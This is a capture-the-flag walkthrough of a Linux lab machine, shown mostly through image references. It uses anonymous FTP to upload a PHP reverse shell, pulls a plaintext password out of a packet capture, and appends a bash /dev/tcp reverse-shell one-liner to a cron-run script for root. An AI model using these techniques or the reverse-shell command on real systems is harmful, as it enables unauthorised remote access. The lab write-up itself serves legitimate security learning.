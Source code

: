 ```yaml
---
sticker: emoji//1f336-fe0f
---
```

# ENUMERATION



## OPEN PORTS

Let's begin with a simple Nmap scan:

![[Pasted image 20241023164431.png]]

```ad-hint
OPEN PORTS:

- 21: ftp (Anonymous login allowed)
- 22: ssh
- 80: http
```

Let's log in FTP since anonymous login is allowed:

![[Pasted image 20241023164907.png]]

We found this files, let's download them all using `mget *`

Let's read `notice.txt`:

![[Pasted image 20241023165101.png]]

Seems like `maya` could be an user for ssh

If we try to use `steghide` in the important.jpg we get this:

![[Pasted image 20241023165247.png]]
Let's try to change the hex for the file into a jpg, and try again:

![[Pasted image 20241023165422.png]]
![[Pasted image 20241023165648.png]]

Couldn't get anything useful, so, let's start with the web fuzzing and enumeration
## FUZZING

Using FFUF to fuzz the website, I found this directory:

![[Pasted image 20241023164544.png]]

Let's visit the website and try to enumerate it further: 

![[Pasted image 20241023165753.png]]
## SOURCE CODE

![[Pasted image 20241023165822.png]]
# EXPLOITATION


## FILES DIRECTORY

![[Pasted image 20241023165853.png]]

Seems like we could exploit the ftp to upload files into the server, we could try uploading a [[MOST COMMON REVERSE SHELLS|reverse shell]] for this CTF, I uploaded a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):



![[Pasted image 20241023174700.png]]

Nice, let's send the reverse shell and get our connection:


![[Pasted image 20241023174758.png]]

Once I established the connection, I stabilized my shell using the [[STABLE SHELL|stable shell tricks]]

![[Pasted image 20241023174947.png]]

Nice, now we have an stable shell, let's get our flags and escalate privileges.


# PRIVILEGE ESCALATION

Before trying to escalate privileges, we are able to read the recipe.txt file and it says this:

![[Pasted image 20241023175629.png]]

So, we got our first answer, let's try to read the home directory:

![[Pasted image 20241023175658.png]]


If we try to `cd` to Lennie home, permission is denied, but now, we can try other escalation vectors, for example, if we use linpeas, we are able to see we have 2 suspicious folder in root:

```ad-note
[+] Unexpected folders in root 
/incidents /data
```

Let's read the contents of both files:

![[Pasted image 20241023180403.png]]

We got a `.pcapng` file, we can analyze it with wireshark, let's copy it to `/var/www/html/files/ftp` and download it to our machine:

![[Pasted image 20241023180944.png]]
![[Pasted image 20241023180951.png]]


Now that we filtered tcp in wireshark, we can follow the tcp stream for the following:

![[Pasted image 20241023182634.png]]

If we follow the stream, we are able to see this:

![[Pasted image 20241023182732.png]]

Seems like we got the password for Lennie:

```ad-important
`lennie:c4ntg3t3n0ughsp1c3`
```

![[Pasted image 20241023182848.png]]
We are in, now, we are able to read the `user.txt`

If we try `sudo -l`, lennie may not run sudo on startup, let's use the other techniques from [[BASIC PRIVESC IN LINUX|linux privesc]]

After trying all that, nothing useful came, but, in the lennie home, we found a useful directory called `/scripts` 
![[Pasted image 20241023183424.png]]
I found a planner.sh and startup_list.txt, second file did not have anything useful, but first file, had this:


![[Pasted image 20241023183735.png]]

A `/etc/print.sh` file, we can write on it, let's write a reverse shell on it:

```ad-important
shell: `echo "/bin/bash -i >& /dev/tcp/10.6.34.159/1234 0>&1" >> /etc/print.sh`
```

Since planner.sh runs every minute, we only need to wait a minute with out netcat set on to get the shell:

![[Pasted image 20241023184044.png]]

And just like that, we finished the machine:

![[Pasted image 20241023184153.png]]

Gg!

